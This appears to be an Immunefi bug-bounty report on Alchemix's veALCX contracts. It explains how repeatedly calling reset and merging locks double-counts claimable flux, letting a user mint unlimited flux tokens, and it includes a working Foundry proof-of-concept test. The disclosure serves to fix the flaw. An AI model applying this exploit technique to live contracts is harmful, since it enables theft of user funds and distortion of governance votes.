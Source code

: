 
# Malicious user can mint unlimited flux tokens

Submitted on Wed May 15 2024 23:35:05 GMT-0400 (Atlantic Standard Time) by @MahdiKarimi for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31280

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Theft of unclaimed yield
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
A malicious user can mint unlimited flux by calling reset ( to receive claimable flux ) and merging it with another token and calling reset again to claim again and repeat this process and mint unlimited flux. 

## Vulnerability Details
Users earn flux proportion to the amount of veALCX they hold at each epoch, they can use claimable flux for boosting voting power, mint flux tokens or add It to their unclaimed value through the reset function of the voter contract so they can use it in the future.
The merge function ensures users didn't vote in the same epoch that they want to merge the token to prevent double calculation of claimable flux by checking `voted[]` mapping, however, users can call reset to receive claimable flux ( it's added to unclaimed flux ), since reset function sets voted to false and only updates lastVoted ( which doesn't affect merging ) user can 
merge the token with another token and receive the claimable amount again.  

Scenario:
A malicious user creates two different locks ( first with 100 locked value and second with 1 lock value ), flux per veALCX in this epoch is 1, user calls the reset function at voter contract and claims 100 flux for token1 and then merges token1 with the token2, and call reset for token2 and receives 101 flux ( while user received 100 flux before merge ), user earned 201 flux in this epoch instead of 101 tokens, user can create another small lock and merge the token2 with new lock and call reset again and repeat this process to mint unlimited flux.

## Impact Details
The attacker can use unlimited flux tokens to boost voting power and direct emission to a specific gauge ( direct theft of unclaimed yield )

Minting unlimited flux tokens leads flux price to 0 ( Direct theft of any user funds, whether at rest or in motion, other than unclaimed yield  ) 
, the flux token is used as a reward for users but it's an ERC20 and can be traded in markets ( has some utilities ) so minting unlimited flux affects all flux holders ( not just rewarded users ) and leads to the loss of their assets that's why I believe it's considered direct theft of user funds.

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L183-L192
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L618-L651

        
## Proof of concept
## Proof of Concept
```
      function testMintUnlimitedFlux() external {

        // create 2 lock tokens for user 
        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, veALCX.MAXTIME(), false);
        uint256 tokenId2 = createVeAlcx(admin, TOKEN_1, veALCX.MAXTIME(), false);

        // calculate the amount flux tokens that user should be able to claim in this epoch 
        uint256 token1Flux = veALCX.claimableFlux(tokenId1);
        uint256 token2Flux = veALCX.claimableFlux(tokenId2);
        uint256 totalClaimable = token1Flux + token2Flux;

        // user calls reset for token1, so claimable flux for token 1 is added to unclaimed amount of token1 
        hevm.prank(admin);
        voter.reset(tokenId1);

        // user merges token1 and token2, so unclaimed amount of token1 is added to token2 unclaimed 
        hevm.prank(admin);
        veALCX.merge(tokenId1, tokenId2);

        // user calls reset for token2, so claiamble amount is added to unclaimed 
        // due to merge amount of token1 has been added to token2 and effects claimable flux despite that flux for that amount is being added to unclaimed flux already  
        hevm.prank(admin);
        voter.reset(tokenId2);

        uint256 unclaimedFlux = flux.getUnclaimedFlux(tokenId2);
        // user has more flux that totalClaimable at first place 
        assert(unclaimedFlux > totalClaimable);
        // token1Flux is double claculated during claiming flux  
        // NOTE: used assert Approx due to precision loss during calculation of claimable amount 
        uint256 claimed = 2 * token1Flux + token2Flux;
        assertApproxEqAbs(claimed, unclaimedFlux, 100000000);

        // malicious user can repeat this to mint unlimited flux 
    }
```